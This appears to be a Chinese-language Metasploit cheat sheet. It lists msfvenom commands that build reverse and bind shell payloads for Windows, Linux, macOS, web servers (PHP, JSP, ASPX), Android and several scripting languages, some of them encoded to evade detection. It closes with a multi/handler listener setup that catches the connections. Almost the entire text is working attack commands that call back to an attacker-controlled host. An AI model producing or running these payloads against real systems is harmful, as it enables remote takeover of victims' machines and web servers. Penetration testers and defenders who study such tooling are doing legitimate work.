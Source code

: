 ##### Auxiliary
	>show auxiliary 查看所有模块
##### Payload
	>show payloads 查看所有攻击载荷
	Payload是目标被攻击时执行的实际功能代码
	生成载荷
	>use exploit/multi/script/web_delivery
	>set target 2
	>msfvenom --list payloads 列出所有payload
	>msfvenom --list encoders 列出所有编码器
    Windows
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f exe -o /root/1.exe
	>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o 1.exe
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f psh-reflection >xxx.ps1
	>msfvenom -a x64 --platform windows -p windows/powershell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1
	>msfvenom -p windows/shell_hidden_bind_tcp LHOST=192.168.0.1 LPORT=11111  -f exe> /root/1.exe  生成NC正向连接
	>msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f exe> 1.exe 生成NC反向连接
    Linux
	>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e -f elf -a x86 --platform linux -o shell
	>msfvenom -p cmd/unix/reverse_bash LHOST=192.168.0.1 LPORT=11111 -f raw > shell.sh
    MacOS
	>msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f macho > shell.macho
    Web
	>msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw > shell.php
	>msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f war > shell.war
	>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f aspx -o payload.aspx
	>msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.jsp
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f asp > shell.asp
    Android
	>msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f apk -o payload.apk
	>msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=12138 -f raw > shell.apk
	>msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=12138 R > test.apk
    shellcode
	>msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.1 LPORT=11111 -f c –o /root/1.c
	>msfvenom -p cmd/unix/reverse_python LHOST=192.168.0.1 LPORT=11111 -o shell.py
	>msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw > shell.py
	>msfvenom -p cmd/unix/reverse_perl LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.pl
	>msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.rb
	>msfvenom -p cmd/unix/reverse_lua LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.lua
###### msf设置监听
	>use exploit/multi/handler
	>set payloadwindows/meterpreter/reverse_http 指定相应的payload
	>set LHOST 192.168.0.1
	>set LPORT 11111
	>exploit -j 后台监听
	或在exploit模块中直接使用set payload 命令指定payload